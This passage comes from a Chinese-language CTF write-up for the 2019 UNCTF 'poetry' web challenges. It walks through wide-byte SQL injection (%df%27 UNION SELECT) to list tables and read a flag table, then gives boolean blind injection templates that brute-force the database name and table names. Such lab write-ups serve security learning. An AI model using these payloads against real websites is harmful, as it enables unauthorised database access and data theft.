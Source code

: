 1.  此外还有一个输入的内容提示,

![](https://ctfwp.wetolink.com/2019unctf/poetry1/ef0b300788c1f28df2b4c2d2cb66996c.png)

1.  尝试sql注入报错,输入’字符,发现输入提示变为了如下

![](https://ctfwp.wetolink.com/2019unctf/poetry1/e88983a71e6d706e7bfa3e14b59d9e8f.png)

1.  可以发现被转化了,本题考点是宽字节注入,考虑新生水平,所以将输入转化的内容直接提示出来了,这样很方便构造,所以我们可以按照输入构造sql语句,payload如下

2.  先看本数据库的表有那些,( -1%df%27union%20select%20(select
    group_concat(table_name) from information_schema.tables where
    table_schema=database()),2%20%23)

![](https://ctfwp.wetolink.com/2019unctf/poetry1/acd161badbee1b8f5943fd04c54b81bc.png)

1.  可以看到有个flag,和img表,接下来直接读取flag的内容,payload如下,(
    -1%df%27union%20select%20(select%20*%20from%20flag%20limit%200,1),2%20%23)

2.  Flag出来了

![](https://ctfwp.wetolink.com/2019unctf/poetry1/a1308c2747d8e3b723e43bc5fff204d7.png)

### 光坂镇的小诗2
#### 原理知识
1）	由于网站开发者在进行代码编写过程中未对输入参数进行严格校验及过滤，导致黑客可以通过构造SQL语句，获取目标网站后台数据库中的信息。
2）	SQL注入是输入特定的SQL语句达到SQL注入的效果，不同类型的SQL数据库类型所对应的SQL语句不一样，因此，尝试SQL注入测试前，需要获取目标网站数据库类型，通常，根据测试者的测试经验或采用不同数据库类型的测试的方法进行测试，有效获得目标网站真实数据库类型。

#### 解题过程
步骤：

打开靶机， 留着一些诗

![](https://ctfwp.wetolink.com/2019unctf/poetry2/e0a3bf881355f24f02c29365011ddd9c.png)

可以看到每一个链接都是发送了一个get请求,

![](https://ctfwp.wetolink.com/2019unctf/poetry2/053a899f3abee34a470191ed4487364c.png)

可以大体判断出是get id然后,数据库返回id的图片的地址

但是题目信息只提示了他再数据库中,如果get

id的数字超过了6就没有提示了,于是尝试sql注入,再地址栏提交1’网页没有提示,但是提交1’%23则有提示了,所以判断出了是考察的布尔盲注,并且没有过滤.

![](https://ctfwp.wetolink.com/2019unctf/poetry2/6d811e297599e170be14e515d8c1dffd.png)

![](https://ctfwp.wetolink.com/2019unctf/poetry2/515010b75b4716538b8320eebfc08d4f.png)

编写python脚本,在exp中

```
?id=1' and length(database())='{}' %23 判断数据库长度

?id=1' and substr(database(),{0},1)='{1}' %23 爆破数据库名

id=1' and (substr((select group_concat(table_name) from information_schema.tables where table_schema='ctf'),{0},1))='{1}' %23 爆破表
```
